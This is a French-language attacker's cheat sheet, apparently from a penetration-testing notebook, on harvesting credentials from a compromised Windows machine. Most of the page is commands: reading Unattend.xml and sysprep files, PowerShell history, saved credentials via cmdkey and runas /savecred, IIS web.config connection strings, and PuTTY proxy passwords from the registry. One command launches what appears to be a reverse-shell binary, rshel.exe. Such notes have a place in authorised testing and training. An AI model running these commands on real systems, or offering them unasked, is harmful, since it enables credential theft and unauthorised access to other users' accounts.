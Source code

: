 > Récolter des mots de passe à partir d'endroits habituels

Le moyen le plus simple d’accéder à un autre utilisateur consiste à collecter les informations d’identification d’une machine compromise.

## Unattended Windows Installations
Installations Windows sans surveillance
Dans ces fichiers, ont peut rencontrer des informations d'identification

```c
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

## Powershell History

Chaque fois qu'un utilisateur exécute une commande à l'aide de Powershell, elle est stockée dans un fichier qui conserve la mémoire des commandes passées.

```c
#cmd.exe
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```c
#powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Saved Windows Credentials 
Informations d'identification Windows enregistrées

Afficher les informations d'identification enregistrées :

```c
cmdkey /list
```

Bien qu'on ne peut pas voir les mots de passe réels, si vous remarquez des informations d'identification qui valent la peine d'être essayées `Type: Domaine Password`, vous pouvez les utiliser suivante :

```c
runas /savecred /user:{USERNAME_NAME} cmd.exe
```

```c
runas /savecred /user:{USERNAME_NAME} C:\Temp\rshel.exe
```

## IIS Configuration

Selon la version installée d'IIS, nous pouvons trouver web.config dans l'un des emplacements suivants :

```c
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

Trouver les chaînes de connexion à la base de données sur le fichier :

```c
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## Retrieve Credentials from Software: PuTTY 
Récupérer les informations d'identification à partir du logiciel : PuTTY
Stock les configurations de proxy qui incluent les informations d'authentification en texte clair.

```c
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

Utiliser aussi le [[Dumping Browsers Credentails]]

